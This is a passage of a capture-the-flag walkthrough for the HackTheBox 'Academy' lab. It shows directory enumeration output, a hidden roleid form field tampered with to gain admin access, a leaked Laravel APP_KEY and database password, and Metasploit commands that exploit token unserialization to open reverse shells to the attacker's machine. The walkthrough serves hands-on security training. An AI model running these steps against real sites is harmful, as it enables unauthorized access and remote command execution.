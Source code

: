     .htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10]
    .htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10]
    admin                   [Status: 200, Size: 2633, Words: 668, Lines: 142]
    config                  [Status: 200, Size: 0, Words: 1, Lines: 1]
    index                   [Status: 200, Size: 2117, Words: 890, Lines: 77]
    login                   [Status: 200, Size: 2627, Words: 667, Lines: 142]
    register                [Status: 200, Size: 3003, Words: 801, Lines: 149]


3. After spending some time enumerating the website, I started to investigate register.php, and in the code you can set your roleid.
    <input type="hidden" value="0" name="roleid">

    Change the roleid value from 0 (what I assume is user) to 1 (what I assume is admin), and create a new user.

    Try to login with your new admin account (test2:test2) on http://academy.htb/admin.php - SUCCESS!

4. Logged in as admin we find a to-do list:

    Item 	                                                  Status
    Complete initial set of modules (cry0l1t3 / mrb3n) 	    done
    Finalize website design 	                              done
    Test all modules 	                                      done
    Prepare launch campaign 	                              done
    Separate student and admin roles 	                      done
    Fix issue with dev-staging-01.academy.htb 	            pending

    Add dev-staging-01.academy.htb to /etc/hosts and visit the URL.

      APP_NAME "Laravel"
      --- snip ---
      APP_KEY "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
      --- snip ---
      DB_DATABASE "homestead"
      DB_USERNAME "homestead"
      DB_PASSWORD "secret"

    Googling for Laravel vuln one of the first links that pops up is:
    "PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)"

    msf6 > use exploit/unix/http/laravel_token_unserialize_exec
    msf6 exploit(unix/http/laravel_token_unserialize_exec) > set rhosts academy.htb
    msf6 exploit(unix/http/laravel_token_unserialize_exec) > set vhost dev-staging-01.academy.htb
    msf6 exploit(unix/http/laravel_token_unserialize_exec) > set app_key dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
    msf6 exploit(unix/http/laravel_token_unserialize_exec) > set lhost 10.10.14.3
    msf6 exploit(unix/http/laravel_token_unserialize_exec) > run

    [*] Started reverse TCP handler on 10.10.14.3:4444
    [*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.215:51084) at 2020-12-07 12:47:57 +0100
    [*] Command shell session 2 opened (10.10.14.3:4444 -> 10.10.10.215:51086) at 2020-12-07 12:47:58 +0100
